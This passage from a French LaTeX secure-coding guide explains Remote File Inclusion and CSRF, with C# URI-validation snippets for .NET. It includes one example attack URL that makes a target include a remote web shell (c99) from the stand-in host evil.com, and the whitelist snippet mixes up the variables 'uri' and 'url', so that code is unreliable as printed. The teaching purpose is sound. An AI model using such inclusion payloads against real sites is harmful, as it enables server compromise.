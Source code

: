 \begin{Define}{Vulnérabilités!RFI}
Une \gls{RFI} est une inclusion d'un fichier distant par l'utilisation d'un mécanisme de lecture présent dans le code, comme par exemple l'inclusion d'un paramètre GET d'un document à charger. Cela peut servir notamment à inclure un code javascript malveillant exécuté par l'utilisateur ou un code exécuté par le serveur.
\end{Define}

En reprenant l'exemple précédent, l'attaquant pourrait exécuter la requête via l'URL: \url{http://example.com/preview.php?file=http://evil.com/c99.aspx}.\\
En cas de nécessité d'inclure des pages distantes, il est recommandé de restreindre l'exécution des fichiers par Content-Type et par origine.\\
L'implémentation d'une restriction peut se faire en utilisant des fonctions natives comme la fonction \textit{IsWellFormedUriString()} en .NET. Cette fonction permet de vérifier la structure d'une URL et sa conformité par rapport aux \gls{RFC}.
\begin{Config}{csharp}{.NET: Vérification d'URI relative}
var uri= Request.QueryString["Uri"];
if (!Uri.IsWellFormedUriString(uri,UriKind.Relative)){
	throw new ApplicationException("URI not allowed");
}
\end{Config}

La vérification basée sur liste blanche peut également se réaliser en utilisant la classe \textbf{DbContext}.
\begin{Config}{csharp}{.NET: Vérification par liste blanche}
//var db = new DbContext();
// [...]
var uri= Request.QueryString["Uri"];
if (!db.WhiteListURLs.Where(u => u.URL == url).Any()){
	throw new ApplicationException("URI not allowed");
}
\end{Config}

\subsection{Gestion des sessions: CSRF}
\begin{Define}{Vulnérabilités!CSRF}
Une \gls{CSRF} est une attaque consistant à induire un utilisateur connecté à réaliser une action à son insu. Ce type d'attaque se réalise par la réalisation d'une requête par l'utilisateur. Elle peut se réaliser par un fichier HTML ou PDF malveillant, l'accès à une page web ou en utilisant une autre vulnérabilité (\gls{XSS}, unvalidated redirection...).
Une \gls{CSRF} peut se contrer en utilisant:\begin{itemize}
\item Une vérification de l'origine du visiteur
\item Un \textit{token} anti-CSRF
\item Une double validation
\end{itemize}
\end{Define}


